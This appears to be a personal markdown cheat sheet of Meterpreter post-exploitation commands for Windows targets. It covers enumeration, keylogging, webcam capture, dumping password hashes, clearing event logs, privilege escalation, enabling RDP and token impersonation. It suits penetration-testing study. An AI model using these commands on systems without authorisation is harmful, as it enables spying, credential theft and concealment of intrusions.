 ```yaml
---
tags:
  - security
  - tool
  - metasploit
title: Meterpreter
date: 2024-01-28 14:15:56 -0600
updated: 2024-01-28 14:15:56 -0600
---
```


Meterpreter runs from the memory of the target machine. It allows us to migrate between system processes if required as well

#### Basic System Information

````bash
getuid 				# View User Info
sysinfo
net user 			# View users on System
ipconfig
ps 				
getprivs 			# View user privileges
find 				# Find files on System

# View privileges of current user
whoami /priv 		
whoami /groups

tasklist /SVC 		# View running processes
````

#### Upload & Download File

````bash
download <filename> 	# Download file from Target
upload <filename> <path-on-target>
````

#### Capture Image

````bash
webcam_list
webcam_snap
screenshot
````

#### Keylogger

````bash
keyscan_start
keyscan_dump 	# View all the keystrokes
keyscan_stop
````

#### Operations on Target

````bash
shell 					# Launch Shell - To go back use Ctrl + Z
clearev 				# Clear Tracks
migrate <process-id> 	# Migrate to different process
execute -f <filename>
getsystem 				# Try to escalate privileges
hashdump 				# Dump Hashes
````

When using migrate the target process should have the same privilege as the current process and show be of the same architecture as well

#### Run Payload

````bash
run post/windows/gather/checkvm 				# Check if target is VM
run post/windows/gather/hashdump 				# Collect Password Hashes
run post/multi/recon/local_exploit_suggester 	# Find exploits for Target
run post/windows/manage/enable_rdp 				# Force Enable RDP

load kiwi 			# Start Kiwi
lsa_dump_sam 		# Dump Hashes

run autoroute -h 	# Setup autoroute for Pivoting

load incognito
list_tokens -u 		# View Tokens
impersonate_token "<token-name>"
````

#### Session Management

````bash
background

sessions -l 					# List Sessions
session -i <session-id>
session <number> 				# Select a Session

sessions -K 					# Kill all sessions
sessions -k <sess-id> 			# Kill a session
````
